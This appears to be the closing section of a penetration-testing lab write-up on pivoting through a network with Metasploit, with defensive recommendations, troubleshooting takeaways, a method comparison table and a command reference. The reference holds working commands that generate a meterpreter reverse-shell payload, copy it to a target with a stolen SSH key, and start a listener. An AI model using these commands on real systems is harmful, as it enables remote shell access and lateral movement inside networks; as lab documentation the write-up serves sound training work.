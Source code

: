 ```
8. Network Share Access → Domain Controller
```

## Security Recommendations

1. **Web Application Security:** Remove web shells, implement proper access controls
2. **SSH Key Management:** Secure private keys, implement key rotation
3. **Network Segmentation:** Implement proper VLAN separation
4. **Service Account Hygiene:** Use managed service accounts (MSA/gMSA)
5. **LSASS Protection:** Enable Credential Guard, LSA Protection
6. **RDP Security:** Implement NLA, disable RDP where not needed
7. **Network Shares:** Review and restrict domain controller access
8. **Monitoring:** Implement logging for pivoting activities and lateral movement

---

## Key Takeaways

1. **SOCKS Version Compatibility:** Always match MSF SOCKS version with proxychains config
2. **Port Forward vs SOCKS:** Port forwarding is often more reliable than SOCKS proxy
3. **Session Stability:** Linux meterpreter payloads can be unstable; consider alternatives
4. **Network Routes:** Ensure autoroute is properly configured before attempting pivots
5. **Troubleshooting Order:** 
   - Check session status
   - Verify routes
   - Confirm proxy/port forward status
   - Test simple connections first

## Alternative Methods Summary

| Method | Pros | Cons | Reliability |
|--------|------|------|-------------|
| SOCKS Proxy | Protocol agnostic, multiple connections | Version conflicts, complex setup | Medium |
| Port Forward | Simple, direct, stable | One port at a time | High |
| SSH Tunneling | Built-in, no MSF needed | Requires SSH access | High |

**Recommendation:** Start with port forward for single services, use SOCKS for multiple protocols.

---

## Complete Command Reference

### Payload Generation & Transfer
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=IP LPORT=9001 -f elf -o payload.elf
scp -i id_rsa payload.elf webadmin@TARGET:~/
```

### MSF Handler Setup
```bash
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 9001
run
```
